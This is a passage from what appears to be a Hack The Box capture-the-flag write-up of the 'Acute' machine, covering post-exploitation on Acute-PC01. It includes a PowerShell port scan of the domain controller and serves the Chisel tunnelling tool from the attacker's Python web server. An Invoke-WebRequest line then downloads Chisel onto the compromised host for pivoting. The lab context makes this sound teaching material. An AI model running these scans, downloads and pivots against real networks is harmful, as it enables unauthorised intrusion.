 ```shell
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       624
  TCP    [::]:49665             [::]:0                 LISTENING       560
  TCP    [::]:49666             [::]:0                 LISTENING       572
  TCP    [::]:49667             [::]:0                 LISTENING       420
  TCP    [::]:49670             [::]:0                 LISTENING       624
  TCP    [::]:49693             [::]:0                 LISTENING       616
[...]
```

As you can see, there's a SMB running on TCP port 445, maybe its on the Domain Controller.

**We can perform a TCP port scanning to the Domain Controller via PowerShell:** (Modified from [https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```shell
PS > 1..1024 | %{$socket = (New-Object System.Net.Sockets.TcpClient).BeginConnect('172.16.22.1', $_, $null, $null).AsyncWaitHandle.WaitOne(10); if ($socket){Write-Output "[+] TCP port $_ is opened!"}}
[+] TCP port 53 is opened!
[+] TCP port 88 is opened!
[+] TCP port 135 is opened!
[+] TCP port 139 is opened!
[+] TCP port 389 is opened!
[+] TCP port 443 is opened!
[+] TCP port 445 is opened!
[+] TCP port 464 is opened!
[+] TCP port 593 is opened!
[+] TCP port 636 is opened!
```

As you can see, **port 88 (Kerberos) is opened, so we can confirmed that `172.16.22.1` is the Domain Controller.**

To access that, we can do port forwarding. I'll be using [Chisel](https://github.com/jpillora/chisel).

- **Transfer [Chisel executable](https://github.com/jpillora/chisel/releases) to `Acute-PC01`:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:07:35(HKT)]
└> file /opt/chisel/chisel_1.7.7_windows_amd64.exe 
/opt/chisel/chisel_1.7.7_windows_amd64.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 6 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:07:42(HKT)]
└> python3 -m http.server -d /opt/chisel 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
PS > iwr -Uri http://10.10.14.19/chisel_1.7.7_windows_amd64.exe -OutFile C:\Utils\chisel.exe
```

> Note: `iwr` is an alias of `Invoke-WebRequest` command, which sends HTTP requests to a given URI.

- **Setup a port forwarding server:**
